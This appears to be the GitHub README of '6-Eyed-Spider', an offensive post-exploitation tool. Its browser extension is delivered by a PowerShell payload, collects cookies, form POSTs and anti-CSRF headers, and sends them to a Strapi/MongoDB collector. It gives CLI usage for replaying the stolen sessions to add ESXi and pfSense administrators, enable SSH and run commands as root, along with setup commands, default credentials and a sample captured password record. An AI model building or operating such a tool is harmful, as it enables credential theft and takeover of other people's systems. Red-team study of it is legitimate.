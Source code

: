 # 6-Eyed-Spider - Under development 
![logo](https://github.com/M507/6-Eyed-Spider/raw/master/Examples/0.png)

### Abstract
This is a post-exploitation Red-Teaming tool. It gathers data going out and coming into the browser — data like POST requests, cookies, and chosen headers like (ANTI-CSRF headers), then sends all data to Strapi. Strapi and MongoDB store the data so that 6-Eyed-Spider-CLI can use the collected data to perform specific attacks. Attacks using the users' valid cookies to execute commands, create admin users, enable unsafe functionalities, manipulate data in systems like VMware, Pfsense, and PanOS. 

The tool takes advantage of how web applications usually are designed. No matter how many authentication steps a web application uses, there will be a weak point where if you know specific tokens, you will be able to interact with the application without the need for reauthenticating. The tool uses these specific tokens to perform critical tasks as authenticated users. It also deals with Anti-CSRF protection; thus, almost every request can be passed.

The tool consists of a couple of parts:
* Dockerized MongoDB and Strapi
  * MongoDB stores the collected data.
  * Strapi receives and manages the collected data.
* Google-Chrome Extention
  * Collects the browser's data from the blue team.
* 6-Eyed-Spider-CLI
  * Runs custom made plugins which make use of the collected data.

### Disclaimer
This Red-Team tool is used for educational purposes ONLY!

## Table of contents:
 * [Abstract](#abstract)
 * [Disclaimer](#disclaimer)
* [Table of contents:](#table-of-contents)
 * [How to:](#how-to)
    * [Use 6-Eyed-Spider-CLI:](#use-6-eyed-spider-cli)
    * [Install 6-Eyed-Spider:](#install-6-eyed-spider)
    * [Run the server manually:](#run-the-server-manually)
 * [Configure the admin panel and the API address from:](#configure-the-admin-panel-and-the-api-address-from)
    * [Then with administrator privileges:](#then-with-administrator-privileges)
    * [Clients:](#clients)
 * [6-Eyed-Spider-CLI Plugins:](#6-eyed-spider-cli-plugins)
 * [Dependencies](#dependencies)
 * [Todos](#todos)

### How to:

#### Use 6-Eyed-Spider-CLI:
```sh
Welcome! Type ? to list commands
6-Eyed-Spider> ?

Documented commands (type help <topic>):
========================================
Add_ESXI_Admin           Print_all_ESXis_under_control     exit
ESXI_Enable_SSH          Print_all_pfSenses_under_control  help
Execute_pfSense_Command  Print_creds                     

6-Eyed-Spider> help Add_ESXI_Admin
Add admin user.
Usage: Add_ESXI_Admin <ESXI_IP> <USERNAME> <STRONG_PASSWORD> <Description>
Add_ESXI_Admin 192.168.1.10 BLACK_TEAM Liverpool!1!1! Description1
Add_ESXI_Admin 192.168.1.10 ADMIN Liverpool!1998 Description2

6-Eyed-Spider> help Execute_pfSense_Command
Enable SSH.
Usage: Execute_pfSense_Command <ESXI_IP> <Command>
Execute_pfSense_Command 192.168.1.10 id
Execute_pfSense_Command 192.168.1.10 whoami

6-Eyed-Spider> Execute_pfSense_Command 192.168.1.254 whoami

root 

6-Eyed-Spider> Print_all_pfSenses_under_control

https://192.168.1.254/
https://192.168.2.254/
https://192.168.3.254/
https://192.168.4.254/

6-Eyed-Spider>
```

#### Install 6-Eyed-Spider:
```sh
[M507:~]$ bash Install.sh
```
#### Run the server manually:
```sh
[M507:~]$ # Start the database
[M507:~]$ docker-compose -f docker-compose-db.yml up --build -d
[M507:~]$ # Wait 20 seconds until its states changes to healthy 
[M507:~]$ watch docker-compose -f docker-compose-db.yml ps
[M507:~]$ # Insert db.dump into the database, using this command
[M507:~]$ docker exec -i strapi-docker_db_1 sh -c 'mongorestore --archive'< RedAdmin.dmup
[M507:~]$ # Start the Strapi
[M507:~]$ docker-compose -f docker-compose-main.yml up --build -d
```
Or run Run.sh, which executes the same commands above.
```sh
[M507:~]$ bash Run.sh
```
###  Configure the admin panel and the API address from:
```sh
[M507:~]$ cat ./strapi-app/config/environments/development/server.json
{
  "host": "localhost",
  "port": 1337,
  "proxy": {
   "enabled": false
  },
  "autoReload": {
    "enabled": true
  },
  "cron": {
    "enabled": false
  },
  "admin": {
    "autoOpen": false
  }
}
```

Info ☄️  Default Admin panel: http://localhost:1337/admin
Info ⚡️ Default Server: http://localhost:1337

#### Then with administrator privileges:
Default credentials: admin:RedAdmin
* Insert all the targeted domains into: http://127.0.0.1:1337/Domains
* Insert all the targeted headers into: http://127.0.0.1:1337/Headers
* http://127.0.0.1:1337/Posts receives data from the public without any privileges.
* /Posts receives: IP (String),ID (String), Site (String), and Data (Json), Type (String). Type: either "Cookie", "Header", or "Form".
An example:
```html
{
    "IP": "192.168.1.2",
    "ID": 31231,
    "Site": "https://aavtrain.com/index.asp",
    "Data": {
        "Submit": "Submit",
        "login": "true",
        "password": "MYPASSWORD",
        "user_name": "admin"
    },
    "Type": "Cookies"
}
```

#### Clients:
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2030 Microsoft Corporation. All rights reserved.

C:\Users\Mohad> .\New-ChromeExtension.ps1 (Powershell Payload attached). 
```


### 6-Eyed-Spider-CLI Plugins:
6-Eyed-Spider-CLI runs customized plugins that make use of the valid collected data from the API. 
+ VMware
    + Add an administrator
    + Start SSH
+ Pfsense
    + Add an administrator
    + Execute a command

### Dependencies
+ Docker-compose

### Todos

- Firefox extension configures itself based on the data on /domains /headers.
- Firefox extension sends All POST requests, cookies to /Posts as described above.
- New-FirefoxExtension.ps1
